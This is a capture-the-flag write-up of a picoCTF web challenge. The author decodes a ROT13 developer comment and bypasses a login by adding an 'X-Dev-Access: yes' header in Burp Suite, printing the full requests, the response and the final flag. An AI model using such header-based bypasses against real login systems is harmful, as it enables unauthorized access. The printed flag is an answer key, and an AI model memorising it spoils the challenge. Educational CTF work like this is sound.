



# Challenge: Crack the Gate 1

**Category:** Web Exploitation  

**Difficulty:**  Easy



---

## Steps

There was a login portal as shown below:



I inspected the page and found comments in the top section of the `body`, such as:

```html
<body>
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
<!-- Remove before pushing to production! -->
...
</body>
```

The comment mentioned something that should have been removed before pushing to production, suggesting it was a leftover developer hint.

The string `<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->` was clearly encoded, so I decoded it using ROT13.

After decoding, it became:

`<!-- NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes" -->`

```
FYI
ROT13 is a simple letter substitution cipher that replaces a letter with the 13th letter after it in the Latin alphabet.

ROT13 is a special case of the Caesar cipher which was developed in ancient Rome, used by Julius Caesar in the 1st century BC. An early entry on the Timeline of cryptography.

ROT13 can be referred by "Rotate13", "rotate by 13 places", hyphenated "ROT-13" or sometimes by its autonym "EBG13".
```



From this, I realized I needed to use Burp Suite to intercept the login request and manually add the HTTP header `X-Dev-Access: yes` to bypass authentication.

The intercepted request originally looked like this:

```
POST /login HTTP/1.1
Host: amiable-citadel.picoctf.net:52328
Content-Length: 49
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://amiable-citadel.picoctf.net:52328
Referer: http://amiable-citadel.picoctf.net:52328/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"ctf-player@picoctf.org","password":"a"}
```

After adding the required header, the modified request became:

```
POST /login HTTP/1.1
Host: amiable-citadel.picoctf.net:52328
Content-Length: 49
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://amiable-citadel.picoctf.net:52328
Referer: http://amiable-citadel.picoctf.net:52328/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
X-Dev-Access:yes   <-- Added here

{"email":"ctf-player@picoctf.org","password":"a"}
```

After sending the crafted request, I received the following response:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 127
ETag: W/"7f-+cdPEDPMKhnl/vpvUx95+vODkbY"
Date: Sat, 15 Nov 2025 07:21:23 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_125f752d}"}
```

Ta-da! The flag has been captured! 🤓

---

## Key Takeaways

- Always inspect page source and comments; developers sometimes leave useful hints or temporary bypasses.
- ROT13 and other simple ciphers may be used to hide hints; knowing basic encoding/decoding techniques is valuable.
- HTTP headers can influence application logic; custom headers may be exploited in testing or CTF challenges.
- Simple misconfigurations or forgotten developer notes can lead to authentication bypass vulnerabilities.
- Understanding web application request-response flow helps identify hidden security flaws.

---

## Final Flag

`picoCTF{brut4_f0rc4_125f752d}`